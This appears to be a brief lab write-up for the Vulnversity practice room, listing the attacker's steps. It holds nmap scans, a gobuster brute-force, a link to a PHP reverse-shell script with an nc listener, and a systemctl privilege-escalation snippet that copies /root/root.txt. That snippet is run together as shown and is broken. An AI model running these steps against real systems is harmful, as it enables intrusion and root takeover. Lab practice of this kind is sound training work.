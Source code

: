 # Vulnversity room
Learn about active recon, web app attacks and privilege escalation.

## what was done

* scan machine with nmap
```sh
nmap -sV <machines ip>
nmap -A -T5 <ip> -vv
nmap --script vuln <ip>
nmap -T5 -p- -vv <ip>
```

* locate directories with gobuster

```
gobuster dir -u http://<ip>:3333/ -w rockyou.txt
```

* Intercept traffic with Burp Suite

* reverse shell with php script

*https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php*

```
nc -lvp 1234
``` 

* escalate privilage by systemctl

```sh
eop=$(mktemp).serviceecho '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$eop/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```



## what was learnt

*Never allow submit a php file in a form*

*we need to set proxy on browser in order burpsuit can read the network traffick*


## tools

* nmap
* gobuster
* burpsuit
* reverse shell with php script
* escale privilage through systemctl